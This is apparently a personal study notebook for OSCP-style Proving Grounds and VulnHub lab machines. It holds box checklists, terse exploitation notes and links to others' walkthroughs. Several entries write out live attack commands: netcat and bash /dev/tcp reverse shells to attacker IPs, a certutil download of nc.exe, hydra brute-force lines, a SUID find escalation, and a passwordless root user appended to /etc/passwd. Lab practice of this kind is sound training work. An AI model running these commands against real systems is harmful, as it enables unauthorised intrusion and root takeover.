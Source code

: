 ### 8,9
- [x] helpdesk
- Direct exploit for manageengine in metasploit
- [ ] hetemit
- [ ] apex
- [x] xposedapi
- [x] reconstruction
- [x] slort
- [x] payday
- [x] uc404

### 10,11
- [ ] butch
- [ ] hepet
- [ ] hawat
- [ ] pebbles
- [ ] megavolt

### 12,13
- [ ] kevin
- [ ] shifty
- [ ] twiggy

### 14,15
- [ ] authby
- [ ] nickel
- [ ] phobos

### 16,17
- [ ] morbo
- [ ] nibbles
- [ ] billyboss
- [ ] escape

### 18
- [ ] nukem

### 19,20
- [ ] splodge
- [ ] internal
- [ ] wombo

### tre

found poprt 80 and 8082
gobuster 80 with common gace nothing except cms
gobuster with big gave mantis and adminer
gobuster on mantis gave config in which a.txt was present and mysql password was present
logged into mysql with this password and in user table got password of tre
ssh with tre got shell
no suid or sudo -l
one file writeable /usr/bin/check-system
wrote chmod +s /usr/bin/bash
restarted sudo shutdown -r now
/usr/bin/bash -p gave root shell

DC-4

found port 80 with loginpage
brute force found admin and happy
command page enabled
intecepted with burp
got nc shell using radio=ls+-l|nc -e /bin/bash 192.168.43.2 9898&submit=Run
found old-password.bak
brute force ssh 3 users with this file
hydra -L ~/Downloads/users.txt -P ~/Downloads/old-passwords.bak ssh://192.168.43.160
found password of jim and got ssh shell
found a mail file with charles password
su charles
found teehee in sudo -l
can append to a file
added a new root user to etc passwd without password
sudo teehee -a /etc/passwd
infosecadventures::0:0:root:/root:/bin/bash
su infosecadventures

### election1

found phpmyadmin in dirb, loged in with default rot:toor
found uname and pwd for election
in log file found one more password for love
ssh sheel with love
suid serv-u
found privsec exploit
compiled using xenspawn
got root

### nibbles

postgre running with defalut creds postgres:postgres
found direct exploit and got reverse shell
after found find with suid enabled
find . -exec /bin/sh -p \; -quit
got root

### billyboss

found a nexus login page tried bruteforcing but no success
created custom wordlist 

cewl http://192.168.181.61:8081/ | grep -v CeWL > custom-wordlist.txt
cewl --lowercase http://192.168.181.61:8081/ | grep -v CeWL  >> custom-wordlist.txt

brute force with custom wordlist and found password

hydra -I -f -L custom-wordlist.txt -P custom-wordlist.txt 'http-post-form://192.168.181.61:8081/service/rapture/session:username=^USER64^&password=^PASS64^:C=/:F=403'

nexus exploit on searchsploit

uploaded nc on the machine using the exploit

```python
CMD='certutil.exe -urlcache -split -f http://192.168.45.5/nc.exe nc.exe'

CMD='.\\\\nc.exe 192.168.45.5 443 -e cmd.exe'

```

Seimpersonate privilige enabled, used godpotato


### exfilterated

got initial shell using rce for subrion and also by sitemap generation in CMS

exec("/bin/bash -c 'bash -i > /dev/tcp/192.168.45.222/80 0>&1'");

for privesc

cat /etc/crontab

exiftool running every minute

https://lipa.tech/posts/pg-exfiltrated/

### pelican

zookeeper running
initial shell gained
gcore for privesc

### boolean

initial access by registering and then user[confirmed] = true
puting public key in .ssh as authorized_keys
privesc by alias
ssh -l root -i ~/.ssh/keys/root 127.0.0.1 -o IdentitiesOnly=true

### clue
freeswitch on port 8021, exploit on searchsploit but need credentials
cassandra web exploit from searchsploit working found creds but nit working for ssh
smb listing shows backup
crackmapexec smb 192.168.169.240 -u '' -p '' --shares
https://medium.com/@manhon.keung/proving-grounds-practice-linux-box-clue-c5d3a3b825d2

### cockpit

https://medium.com/@0xrave/cockpit-proving-ground-practice-walkthrough-c95930e9523d
sudo masscan "10.10.10.241" -p1-65535,U:1-65535 --rate=500 -e tun0

### codo

https://medium.com/@ardian.danny/oscp-practice-series-5-proving-grounds-codo-76bbc5819b11cd /root

crane

https://medium.com/@Cleto_A/pg-practice-crane-acdde3e29b75

### extplorer

https://deathflash.xyz/blog/pg-practice-extplorer

glpi

https://medium.com/@ardian.danny/oscp-practice-series-17-proving-grounds-glpi-555ce2d9234e

### hub


https://medium.com/@0xrave/hub-proving-ground-practice-62c79b07704e

### image

https://github.com/overgrowncarrot1/ImageTragick_CVE-2023-34152

law

https://medium.com/@0xrave/law-proving-ground-practice-walkthrough-bc9d7f7b2941

### marshalled

subdomain enumeration
ffuf -H "Host: FUZZ.marshalled.pg" -c -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://192.168.214.237 -fs 868

### PC

https://medium.com/@0xrave/pc-proving-grounds-practice-walkthrough-7619983c7d63

### plum

https://medium.com/@0xrave/plum-proving-grounds-practice-walkthrough-d196185a6fd8

### pyloader

https://github.com/JacobEbben/CVE-2023-0297/blob/main/exploit.py

### rubydome

https://r4j3sh.medium.com/rubydome-pg-practice-writeup-7749fe58bbe5

### zipper

https://medium.com/@huwanyu94/proving-grounds-practice-zipper-walkthrough-6567efee48bf